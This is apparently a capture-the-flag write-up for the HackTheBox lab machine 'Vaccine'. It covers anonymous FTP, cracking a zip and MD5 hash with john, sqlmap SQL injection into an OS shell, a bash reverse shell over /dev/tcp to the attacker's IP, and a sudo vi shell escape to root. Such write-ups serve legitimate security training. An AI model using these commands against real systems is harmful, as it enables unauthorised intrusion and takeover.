




# HackTheBox: Vaccine

**Difficulty:** Easy
**OS:** Linux
**Target IP:** 10.129.150.189

## Overview

Vaccine is an easy Linux box that chains together anonymous FTP access, offline password cracking, SQL injection through a web login, and a sudo misconfiguration involving `vi`. The path to root runs through credential reuse discovered inside the web application's own source code.

## Enumeration

Started with an nmap scan against all ports:

```
nmap --min-rate 5000 --max-retries 9 10.129.150.189
```

Results:

```
PORT      STATE    SERVICE
21/tcp    open     ftp
22/tcp    open     ssh
80/tcp    open     http
873/tcp   filtered rsync
1026/tcp  filtered LSA-or-nterm
1183/tcp  filtered llsurfup-http
3998/tcp  filtered dnx
5906/tcp  filtered rpas-c2
14238/tcp filtered unknown
25734/tcp filtered unknown
```

Three open ports of interest: FTP, SSH, and HTTP. FTP was the obvious starting point.

## FTP: Anonymous Access

Anonymous login was allowed:

```
ftp anonymous@10.129.150.189
ftp> ls
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
ftp> get backup.zip
```

The zip was password protected, so it needed cracking before it could be opened.

## Cracking backup.zip

Converted the zip to a crackable hash format and ran it against rockyou:

```
zip2john backup.zip > zip_hash.txt
john --fork=4 --wordlist /usr/share/wordlists/rockyou.txt --format=pkzip zip_hash.txt
john --show zip_hash.txt
```

Result:

```
backup.zip:741852963::backup.zip:style.css, index.php:backup.zip
```

Extracting the archive with the recovered password revealed two files: `index.php` and `style.css`.

## Cracking the Admin Hash

`index.php` contained the login logic for the web application, including a hardcoded MD5 hash used to validate the admin password:

```php
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```

Cracked the hash directly:

```
echo '2cb42f8734ea607eefed3b70af13bbd3' > admin_pass.txt
john --input-encoding=ISO-8859-1 --fork=4 --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 admin_pass.txt
john --show admin_pass.txt --format=raw-md5
```

Recovered credentials: `admin:qwerty789`

## Web Login and SQL Injection

Logged in to the web application at port 80 with `admin:qwerty789`.



After logging in, the dashboard search feature was the next point of interest.



Inspecting the search request in devtools showed the GET parameter being sent to `dashboard.php`.



Pulled the `PHPSESSID` cookie from browser devtools to authenticate sqlmap against the session.



The `search` parameter on `dashboard.php` was vulnerable to SQL injection (PostgreSQL backend, boolean-based, error-based, stacked queries, and time-based blind all confirmed):

```
sqlmap -u "http://10.129.150.189/dashboard.php?search=1" --cookie "PHPSESSID=6scpep7taohbksf4rc4bnodd0d" --os-shell
```

sqlmap dropped into an OS command shell as the `postgres` user:

```
os-shell> whoami
postgres
```

## The sudo Dead End (and why it happened)

Checking sudo rights from inside the sqlmap `os-shell` failed to return anything useful:

```
os-shell> sudo -l
No output
```

Redirecting to a file confirmed the real issue:

```
os-shell> sudo -l -n > /tmp/sudocheck.txt 2>&1
os-shell> cat /tmp/sudocheck.txt
sudo: a password is required
```

The sqlmap `os-shell` isn't a real interactive TTY, it executes each command through blind SQL injection one shot at a time. `sudo -l` needs an interactive terminal to prompt for a password properly, so this environment couldn't resolve it on its own. This pointed toward getting a proper reverse shell instead.

## Getting a Real Shell

Started a listener on the attack box:

```
nc -lvnp 4444
```

Triggered a reverse shell through sqlmap's OS command execution:

```
sqlmap -u "http://10.129.152.238/dashboard.php?search=1" --cookie "PHPSESSID=lagbcu8u1kdubd1th6be3okiak" --os-cmd "bash -c 'bash -i >& /dev/tcp/10.10.15.219/4444 0>&1'"
```

Upgraded the shell to a full TTY:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo
fg
export SHELL=bash
export TERM=xterm-256color
```

## Finding the postgres Password

With a proper shell, checked the web application's source for hardcoded credentials, since the login logic earlier had already shown a pattern of secrets stored directly in the PHP files:

```
postgres@vaccine:/var/lib/postgresql/11/main$ cd /var/www/html
postgres@vaccine:/var/www/html$ cat dashboard.php
```

```php
try {
    $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
}
```

The database connection string leaked the `postgres` system user's password: `P@s5w0rd!`

## Privilege Escalation via sudo + vi

With a real TTY and the correct password, `sudo -l` finally worked:

```
postgres@vaccine:/var/lib/postgresql/11/main$ sudo -l
[sudo] password for postgres:
Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass
User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

`postgres` can run `vi` as any user (`ALL`) on a specific config file with no password beyond what was already supplied. `vi` supports shell escapes, which GTFOBins documents as a standard privilege escalation technique when it's runnable through sudo.

```
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

Inside vi:

```
:!/bin/bash
```

This spawns a bash shell inheriting vi's elevated privileges, root in this case.

```
whoami
# root
```

## Root

Grabbed `/root/root.txt` for the final flag.

## Summary

| Stage | Technique |
|---|---|
| Initial access | Anonymous FTP → cracked zip → cracked MD5 hash → admin web login |
| Foothold | SQL injection via sqlmap `--os-shell` on `dashboard.php` as `postgres` |
| Credential discovery | Hardcoded DB password in `dashboard.php` source |
| Privilege escalation | `sudo` misconfiguration allowing `vi` as root, shell escape |

## Lessons Learned

- In hindsight, once the postgres password was recovered from `dashboard.php`, SSH would have been the better way in, rather than reusing the reverse shell, which kept dropping the connection.
- The sqlmap `os-shell` executes commands through blind injection and is not equivalent to an interactive TTY. Commands that depend on prompting (like `sudo -l` without `NOPASSWD`) will not behave correctly until a real shell is obtained.
- Web application source files are a fast, frequently overlooked source of credentials. Config files and database connection strings should be checked immediately after landing any shell, before moving on to broader privilege escalation enumeration (SUID binaries, writable files, cron jobs).
- Password reuse between application-layer secrets (DB connection strings) and system accounts is a common pattern on beginner-tier boxes and is worth checking early.